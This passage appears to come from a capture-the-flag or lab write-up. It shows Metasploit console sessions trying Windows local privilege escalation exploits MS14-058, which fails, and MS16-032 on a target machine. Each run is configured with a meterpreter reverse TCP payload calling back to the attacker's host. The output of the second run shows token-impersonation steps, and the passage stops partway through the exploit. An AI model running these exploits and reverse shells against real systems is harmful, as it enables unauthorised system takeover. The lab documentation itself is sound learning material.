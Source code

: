 Let's try the `MS14_058` exploit first.
```
msf5 > use exploit/windows/local/ms14_058_track_popup_menu
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/ms14_058_track_popup_menu) > show targets
...
msf5 exploit(windows/local/ms14_058_track_popup_menu) > set target 1
target => 1
msf5 exploit(windows/local/ms14_058_track_popup_menu) > show options
...
msf5 exploit(windows/local/ms14_058_track_popup_menu) > set lhost 10.10.x.x
lhost => 10.10.x.x
msf5 exploit(windows/local/ms14_058_track_popup_menu) > set lport 4646
lport => 4646
msf5 exploit(windows/local/ms14_058_track_popup_menu) > set session 1
session => 1
msf5 exploit(windows/local/ms14_058_track_popup_menu) > run

[*] Started reverse TCP handler on 10.10.x.x:4646 
[-] Exploit aborted due to failure: not-vulnerable: Exploit not available on this system.
[*] Exploit completed, but no session was created.
```
Hmm, this did not work.

Let's try the alternative `MS16_032`.
```
msf5 > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > show targets
...
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set target 1
target => 1
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > show options
...
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set lhost 10.10.x.x
lhost => 10.10.x.x
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set lport 4646
lport => 4646
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set session 1
session => 1
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run

[*] Started reverse TCP handler on 10.10.x.x:4646 
[+] Compressed size: 1016
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\uenODdmaCwwNK.ps1...
[*] Compressing script contents...
[+] Compressed size: 3600
[*] Executing exploit script...
         __ __ ___ ___   ___     ___ ___ ___ 
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|
                                            
                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1176

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
```